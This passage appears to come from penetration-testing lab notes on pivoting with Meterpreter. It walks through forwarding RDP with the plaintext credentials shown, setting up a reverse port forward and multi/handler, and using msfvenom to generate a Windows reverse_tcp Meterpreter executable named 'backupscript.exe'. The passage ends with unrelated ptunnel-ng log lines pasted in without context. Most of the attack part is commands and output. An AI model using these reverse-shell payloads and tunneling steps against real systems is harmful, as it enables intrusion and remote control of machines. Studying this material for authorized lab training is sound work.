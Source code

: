 The above command requests the Meterpreter session to start a listener on our attack host's local port (`-l`) `3300` and forward all the packets to the remote (`-r`) Windows server `172.16.5.19` on `3389` port (`-p`) via our Meterpreter session.

Then we can create remote desktop session using xfreerdp `localhost:300`

`xfreerdp /v:localhost:3300 /u:victor /p:pass@123`

# **Meterpreter Reverse Port Forwarding (remote port forwarding)**

 We will start a listener on a new port on our attack host for Windows and request the Ubuntu server to forward all requests received to the Ubuntu server on port `1234` to our listener on port `8081`.

We can create a reverse port forward on our existing shell from the previous scenario using the below command. This command forwards all connections on port `1234` running on the Ubuntu server to our attack host on local port (`-l`) `8081`. We will also configure our listener to listen on port 8081 for a Windows shell.

### **Reverse Port Forwarding Rules**

```
meterpreter > portfwd add -R -l 8081 -p 1234 -L 10.10.14.18

[*] Local TCP relay created: 10.10.14.18:8081 <-> :1234
```

### **Configuring & Starting multi/handler**

```
meterpreter > bg

[*] Backgrounding session 1...
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LPORT 8081
LPORT => 8081
msf6 exploit(multi/handler) > set LHOST 0.0.0.0
LHOST => 0.0.0.0
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 0.0.0.0:8081
```

We can now create a reverse shell payload that will send a connection back to our Ubuntu server on `172.16.5.129`:`1234` when executed on our Windows host. Once our Ubuntu server receives this connection, it will forward that to `attack host's ip`:`8081` that we configured.

```
dollarboysushil@htb[/htb]$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=1234[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: backupscript.exe
```


[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping privileges now.
[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Relaying packets from incoming TCP streams.
